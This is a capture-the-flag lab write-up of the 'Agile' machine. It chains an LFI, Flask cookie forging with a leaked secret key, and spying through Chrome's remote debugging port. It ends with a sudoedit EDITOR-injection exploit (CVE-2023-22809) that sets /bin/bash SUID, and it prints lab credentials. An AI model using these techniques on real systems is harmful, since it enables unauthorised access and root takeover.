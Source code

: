 # Agile

## Gaining Access

Nmap scan:

```
$ nmap -p- --min-rate 3000 10.129.172.106
Starting Nmap 7.93 ( https://nmap.org ) at 2023-03-06 09:31 EST
Nmap scan report for 10.129.172.106
Host is up (0.17s latency).
Not shown: 65533 closed tcp ports (conn-refused)
PORT   STATE SERVICE
22/tcp open  ssh
80/tcp open  http
```

We need to add `superpass.htb` to our `/etc/hosts` file to access port 80.

### SuperPassword --> LFI

The website advertised a password manager.

<figure><img src="../../.gitbook/assets/image (4) (1).png" alt=""><figcaption></figcaption></figure>

I tested by registering a user to see what functionalities this application has. I registed a username and got an error, revealing that this is a Flask application. Not sure if this was supposed to happen

<figure><img src="../../.gitbook/assets/image (21) (2).png" alt=""><figcaption></figcaption></figure>

Anyways, when I tried again it worked and brought me to a dashboard where I can add a password and Export passwords.

<figure><img src="../../.gitbook/assets/image (20) (8).png" alt=""><figcaption></figcaption></figure>

The Export function looks rather exploitable. I added some passwords, then tried to download the file and was presented with this HTTP request:

```http
GET /download?fn=newuser_export_611199da8a.csv HTTP/1.1
Host: superpass.htb
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:102.0) Gecko/20100101 Firefox/102.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Connection: close
Cookie: remember_token=9|8f50cc62e035672203937ef350c45d6a6780afafd9114b725dfb34ffa10cd42e92e484635b44b3f13d76ce1f6af818f2501684844daf93217e66ec4af933165f; session=.eJwlzjEOwzAIAMC_MHewgYDJZyJiQO2aNFPVvzdS51vuA1sdeT5hfR9XPmB7BaygREnUXHNahqQzMpG1bqUkrMWFSN3CzW4tHTI6Kk5H8d0jVaa6OZlbaFMxDqlR0tBmYx6Yfei-hA0WGr4IlfalocRu0wTuyHXm8d8YfH9o4y4B.ZAX6Tg.txUnjeEEeD_3BB80vD96et6vwwU
Upgrade-Insecure-Requests: 1
```

The `fn` paramete was vulnerable to LFI.

<figure><img src="../../.gitbook/assets/image (2) (1).png" alt=""><figcaption></figcaption></figure>

We find 4 users, `runner`, `corum`, `edwards`, and `dev_admin`. We know that this is a Flask application, so the source code for `app.py` is probably in some `/app/app/main` directory or something along those lines.  Some testing revealed that it was located in `../app/app/superpass/app.py`.

We can grab the SECRET\_KEY variable from here and be able to spoof our own cookies using `flask-unsign`.

```
app.config['SECRET_KEY'] = 'MNOHFl8C4WLc3DQTToeeg8ZT7WpADVhqHHXJ50bPZY6ybYKEr76jNvDfsWD'
```

### Cookie Spoofing --> SSH Creds

Now that we have the SECRET\_KEY, we can decrypt the cookie.

{% code overflow="wrap" %}
```
$ flask-unsign --decode --cookie '.eJwlzjEOwzAIAMC_MHewgYDJZyJiQO2aNFPVvzdS51vuA1sdeT5hfR9XPmB7BaygREnUXHNahqQzMpG1bqUkrMWFSN3CzW4tHTI6Kk5H8d0jVaa6OZlbaFMxDqlR0tBmYx6Yfei-hA0WGr4IlfalocRu0wTuyHXm8d8YfH9o4y4B.ZAX6Tg.txUnjeEEeD_3BB80vD96et6vwwU' --secret 'MNOHFl8C4WLc3DQTToeeg8ZT7WpADVhqHHXJ50bPZY6ybYKEr76jNvDfsWD'
{'_fresh': True, '_id': '733e330a7ec9ed6ea424339019f73647f4f22319da996eaf78681272ca26abade76c7a9a39a9d707694d6f8f6029c04482e187b5d984638a563f715026db9c96', '_user_id': '9'}
```
{% endcode %}

Now, we can change the `_user_id` parameter and hopefully login as other users with stored passwords. We can keep changing the user ID to anything we want and keep getting different passwords. Here are some interesting ones:

```html
<td>hackthebox.com</td>
    <td>0xdf</td>
    <td>762b430d32eea2f12970</td>
<td>mgoblog.com</td>
    <td>0xdf</td>
    <td>5b133f7a6a1c180646cb</td>
<td>agile</td>
    <td>corum</td>
    <td>5db7caa1d13cc37c9fc2</td>
```

That last one for `corum` is a valid password for SSH.

<figure><img src="../../.gitbook/assets/image (5) (8).png" alt=""><figcaption></figcaption></figure>

Then we can easily grab the user flag.

## Privilege Escalation

### Chrome Debugging --> Edwards

I ran a LinPEAS scan and thsi was the one thing that stood out the most:

{% code overflow="wrap" %}
```
runner      3486  0.1  2.5 34023392 103408 ?     Sl   14:49   0:00                      _ /usr/bin/google-chrome --allow-pre-commit-input --crash-dumps-dir=/tmp --disable-background-networking --disable-client-side-phishing-detection --disable-default-apps --disable-gpu --disable-hang-monitor --disable-popup-blocking --disable-prompt-on-repost --disable-sync --enable-automation --enable-blink-features=ShadowDOMV0 --enable-logging --headless --log-level=0 --no-first-run --no-service-autorun --password-store=basic --remote-debugging-port=41829 --test-type=webdriver --use-mock-keychain --user-data-dir=/tmp/.com.google.Chrome.MLKYLq --window-size=1420,1080 data:
```
{% endcode %}

It would appear that there is a --remote-debugging-port being used. Essentially, it means that this port is open and running Chrome. With credentials for SSH, we can port forward this and perhaps access it from our machine to see what the user is doing.

So we can first port forward this thing using `ssh`.

```bash
ssh -L 41829:127.0.0.1:41829 corum@superpass.htb
```

Afterwards, we can use Burpsuite's Chromium browser (that is in-built) to access this thing. This resource was rather helpful:

{% embed url="https://developers.google.com/cast/docs/debugging/remote_debugger" %}

Just add `localhost:41829` to the Discover Network Targets portion, and we will pick up on the target.

<figure><img src="../../.gitbook/assets/image (7) (7).png" alt=""><figcaption></figcaption></figure>

We can inspect this to basically spy on the user.&#x20;

<figure><img src="../../.gitbook/assets/image (10) (1) (5).png" alt=""><figcaption></figcaption></figure>

I visited the `/vault` directory and found some secret credentials.

<figure><img src="../../.gitbook/assets/image (227).png" alt=""><figcaption></figcaption></figure>

Then, we can `su` to `edwards`.

### Sudoedit CVE-2023-22809

Checking `edwards` `sudo` privileges, we see this:

```bash
edwards@agile:/home/corum$ sudo -l
[sudo] password for edwards: 
Matching Defaults entries for edwards on agile:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin,
    use_pty

User edwards may run the following commands on agile:
    (dev_admin : dev_admin) sudoedit /app/config_test.json
    (dev_admin : dev_admin) sudoedit /app/app-testing/tests/functional/creds.txt
```

In short, we edit some files as `dev_admin`. I read files and found some credentials

{% code overflow="wrap" %}
```
# creds.txt
edwards:1d7ffjwrx#$d6qn!9nndqgde4
# config_test.json
"SQL_URI": "mysql+pymysql://superpasstester:VUO8A2c2#3FnLq3*a9DX1U@localhost/superpasstest"
```
{% endcode %}

However, the credentials here lead to dead ends, with the SQL database having nothing of interest. I ran a `pspy64` to see if there were any exploitable processes. This one line looked rather suspicious because `dev_admin` had write access to it:

{% code overflow="wrap" %}
```
2023/03/06 15:16:01 CMD: UID=0    PID=37141  | /bin/bash -c source /app/venv/bin/activate 

edwards@agile:/tmp$ ls -la /app/venv/bin/activate
-rw-rw-r-- 1 root dev_admin 1976 Mar  6 15:15 /app/venv/bin/activate
```
{% endcode %}

Checking the `sudo` version online, I found that it was vulnerable to CVE-2023-22809.

In short, this exploit allows us to write in **any file we want** using `sudoedit` despite the restrictions we have in place. The `activate` file I found earlier was a `bash` script being executed by root. So, all we need to do is append some commands to it to make `/bin/bash` an SUID binary.

{% embed url="https://www.synacktiv.com/sites/default/files/2023-01/sudo-CVE-2023-22809.pdf" %}

Following the PoC, we just /app/venv/bin/activateave to execute these commands:

```bash
export EDITOR='vim -- /app/venv/bin/activate'
sudo -u dev_admin sudoedit /app/config_test.json
```

This opens up the `activate` file and we are free to edit it. We can add `chmod u+s /bin/bash` into it. Then we can easily become `root`.

<figure><img src="../../.gitbook/assets/image (228).png" alt=""><figcaption></figcaption></figure>
